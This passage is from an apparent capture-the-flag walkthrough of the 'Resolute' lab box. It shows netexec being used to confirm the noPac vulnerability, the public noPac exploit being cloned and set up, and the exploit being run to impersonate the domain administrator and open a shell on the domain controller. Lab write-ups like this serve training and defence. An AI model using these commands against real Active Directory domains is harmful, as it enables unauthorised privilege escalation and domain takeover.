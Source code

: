 -   **I sync my clock with the host**:
    -   `sudo ntpdate -s resolute.$domain`

-   **I re-run my test using** `netexec` **to check if it's vulnerable**:
    -   `netexec smb $box -u $user -p $pass -M nopac`
    -   {{< figure src="/ox-hugo/2024-10-21-135004_.png" >}}
    -   This time we see it's vulnerable to the attack.

-   +Note+: I want to be really clear how I knew to test for this specific vulnerability. I have a document that I go through when checking for privilege escalation paths (see below). Simple as that, I keep a central document that I will go through for privesc and checks and then if none of them work I look to other sources.
    -   {{< figure src="/ox-hugo/2024-10-21-160020_.png" >}}
    -   I knew already that their was no `WSUS` vector as the service was not running &amp; neither was CA abuse as it was not running. There were no `AS-Reproastable` users, as show in bloodhound &amp; there were no users who had the correct perms for a `shadow credential` attack in bloodhound either.
    -   I'm telling you this as some walkthroughs make it seem like the attacker is a fountain of knowledge and has memorized all the latest attack vectors. Not the case, get a checklist and enumerate, that's it.

- +Deep Dive+ **I have created a deepdive into this particular exploit if you want to learn more**: 
  - https://bloodstiller.com/articles/understandingnopacexploit/

## 4. Ownership: {#4-dot-ownership}


### Preparing the NoPac Exploit: {#preparing-the-nopac-exploit}

-   **Clone NoPac Exploit Repo**:
    -   `git clone https://github.com/Ridter/noPac.git`

-   **Create Python Virtual Environment**:
    -   I prefer to use python venvs when using exploits this way I don't mess with my underlying python install and everything can existing in it's own space with it's own dependencies
    -   `cd noPac`
    -   `python3 -m venv noPac`

-   **Activate Venv**:
    -   `source noPac/bin/activate`

-   **Install Dependencies**:
    -   `pip3 install -r requirements`


### Using the NoPac exploit to get a shell on the victim: {#using-the-nopac-exploit-to-get-a-shell-on-the-victim}

-   **I run the exploit to get a shell on the host**:
    -   `sudo python3 noPac.py $domain/$user:$pass -dc-ip $box -dc-host resolute -shell --impersonate administrator -use-ldap`
    -   {{< figure src="/ox-hugo/2024-10-21-140916_.png" >}}
    -   As you can see it says `[!] Launching semi-interactive shell - Careful what you execute`. This means we need to get our root flag and set up some simple persistence.
        -   {{< figure src="/ox-hugo/2024-10-21-181723_.png" >}}
